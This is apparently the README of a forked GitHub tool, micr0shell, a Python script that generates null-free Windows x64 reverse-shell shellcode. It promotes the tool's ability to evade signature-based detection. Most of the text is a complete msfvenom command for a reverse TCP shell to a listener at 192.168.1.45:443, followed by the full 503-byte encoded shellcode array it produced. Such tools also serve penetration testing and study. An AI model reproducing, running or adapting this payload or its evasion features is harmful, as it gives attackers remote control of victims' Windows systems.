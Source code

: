 # micr0 shell

## Changes
I renamed and moved things about to make it easier for me to integrate into other tools.


## Original README
Micr0shell is a lightweight and efficient Python script designed for dynamically generating Windows X64 Position-Independent Code (PIC) Null-Free reverse shell shellcode. Depending on the options selected, the generated shellcode can be up to `27` bytes smaller than comparable shellcode from msfvenom, while also avoiding the inclusion of 0x00 bytes. Additionally, because MSF's shellcode is widely used and therefore more likely to be flagged by signature-based detection methods, the shellcode generated by micr0shell offers an added layer of evasion capability.

```Shellcode Generated by MSF
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.45 LPORT=443 -f csharp -v shellcode -b "\x00"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 3 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=7, char=0x00)
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 503 (iteration=0)
x64/xor chosen with final size 503
Payload size: 503 bytes
Final size of csharp file: 2586 bytes
byte[] shellcode = new byte[503] {
0x48,0x31,0xc9,0x48,0x81,0xe9,0xc6,0xff,0xff,0xff,0x48,0x8d,0x05,0xef,0xff,
0xff,0xff,0x48,0xbb,0x2b,0x1e,0x7f,0x17,0x61,0x58,0xad,0xc4,0x48,0x31,0x58,
0x27,0x48,0x2d,0xf8,0xff,0xff,0xff,0xe2,0xf4,0xd7,0x56,0xfc,0xf3,0x91,0xb0,
0x6d,0xc4,0x2b,0x1e,0x3e,0x46,0x20,0x08,0xff,0x95,0x7d,0x56,0x4e,0xc5,0x04,
0x10,0x26,0x96,0x4b,0x56,0xf4,0x45,0x79,0x10,0x26,0x96,0x0b,0x56,0xf4,0x65,
0x31,0x10,0xa2,0x73,0x61,0x54,0x32,0x26,0xa8,0x10,0x9c,0x04,0x87,0x22,0x1e,
0x6b,0x63,0x74,0x8d,0x85,0xea,0xd7,0x72,0x56,0x60,0x99,0x4f,0x29,0x79,0x5f,
0x2e,0x5f,0xea,0x0a,0x8d,0x4f,0x69,0x22,0x37,0x16,0xb1,0xd3,0x2d,0x4c,0x2b,
0x1e,0x7f,0x5f,0xe4,0x98,0xd9,0xa3,0x63,0x1f,0xaf,0x47,0xea,0x10,0xb5,0x80,
0xa0,0x5e,0x5f,0x5e,0x60,0x88,0x4e,0x92,0x63,0xe1,0xb6,0x56,0xea,0x6c,0x25,
0x8c,0x2a,0xc8,0x32,0x26,0xa8,0x10,0x9c,0x04,0x87,0x5f,0xbe,0xde,0x6c,0x19,
0xac,0x05,0x13,0xfe,0x0a,0xe6,0x2d,0x5b,0xe1,0xe0,0x23,0x5b,0x46,0xc6,0x14,
0x80,0xf5,0x80,0xa0,0x5e,0x5b,0x5e,0x60,0x88,0xcb,0x85,0xa0,0x12,0x37,0x53,
0xea,0x18,0xb1,0x8d,0x2a,0xce,0x3e,0x9c,0x65,0xd0,0xe5,0xc5,0xfb,0x5f,0x27,
0x56,0x39,0x06,0xf4,0x9e,0x6a,0x46,0x3e,0x4e,0x20,0x02,0xe5,0x47,0xc7,0x3e,
0x3e,0x45,0x9e,0xb8,0xf5,0x85,0x72,0x44,0x37,0x9c,0x73,0xb1,0xfa,0x3b,0xd4,
0xe1,0x22,0x5e,0xdf,0x2f,0xde,0xf6,0x74,0x2d,0x4d,0x17,0x61,0x19,0xfb,0x8d,
0xa2,0xf8,0x37,0x96,0x8d,0xf8,0xac,0xc4,0x2b,0x57,0xf6,0xf2,0x28,0xe4,0xaf,
0xc4,0x2a,0xa5,0xbf,0xbf,0x60,0x75,0xec,0x90,0x62,0x97,0x9b,0x5b,0xe8,0xa9,
0xec,0x7e,0x67,0x69,0x59,0x10,0x9e,0x8d,0xe1,0x4d,0xc1,0x76,0x7e,0x16,0x61,
0x58,0xf4,0x85,0x91,0x37,0xff,0x7c,0x61,0xa7,0x78,0x94,0x7b,0x53,0x4e,0xde,
0x2c,0x69,0x6d,0x8c,0xd4,0xde,0x37,0x9e,0xa3,0x10,0x52,0x04,0x63,0x97,0xbe,
0x56,0xdb,0xb2,0xa2,0x1b,0xcb,0xe1,0xaa,0x5f,0xe8,0x9f,0xc7,0xd4,0x6a,0x46,
0x33,0x9e,0x83,0x10,0x24,0x3d,0x6a,0xa4,0xe6,0xb2,0x15,0x39,0x52,0x11,0x63,
0x9f,0xbb,0x57,0x63,0x58,0xad,0x8d,0x93,0x7d,0x12,0x73,0x61,0x58,0xad,0xc4,
0x2b,0x5f,0x2f,0x56,0x31,0x10,0x24,0x26,0x7c,0x49,0x28,0x5a,0x50,0x98,0xc7,
0xc9,0x72,0x5f,0x2f,0xf5,0x9d,0x3e,0x6a,0x80,0x0f,0x4a,0x7e,0x16,0x29,0xd5,
0xe9,0xe0,0x33,0xd8,0x7f,0x7f,0x29,0xd1,0x4b,0x92,0x7b,0x5f,0x2f,0x56,0x31,
0x19,0xfd,0x8d,0xd4,0xde,0x3e,0x47,0x28,0xa7,0x65,0x89,0xa2,0xdf,0x33,0x9e,
0xa0,0x19,0x17,0xbd,0xe7,0x21,0xf9,0xe8,0xb4,0x10,0x9c,0x16,0x63,0xe1,0xb5,
0x9c,0x6f,0x19,0x17,0xcc,0xac,0x03,0x1f,0xe8,0xb4,0xe3,0x5d,0x71,0x89,0x48,
0x3e,0xad,0xc7,0xcd,0x10,0x59,0xd4,0xcb,0x37,0x94,0xa5,0x70,0x91,0xc2,0x57,
0x14,0xff,0xec,0x81,0x2d,0xa8,0x7f,0x6c,0x0d,0x0d,0x78,0x0b,0x58,0xf4,0x85,
0xa2,0xc4,0x80,0xc2,0x61,0x58,0xad,0xc4 };
```